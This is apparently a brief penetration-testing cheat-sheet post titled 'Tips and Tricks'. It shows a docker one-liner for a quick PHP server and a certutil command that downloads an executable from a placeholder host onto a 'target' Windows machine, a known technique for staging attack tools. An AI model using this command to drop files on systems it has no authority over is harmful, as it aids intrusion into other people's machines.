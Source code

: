 ```yaml
---
title: "Tips and Tricks"
date: 2021-02-17T17:22:05+01:00
categories: []
tags: []
---
```

### Pop up a quick PHP server
```text
docker run -p 8080:80 -v $(pwd):/var/www/html php:apache
```

### Get files on target
`certutil -urlcache -f http://IP/file.exe C:\Path\to\file.exe`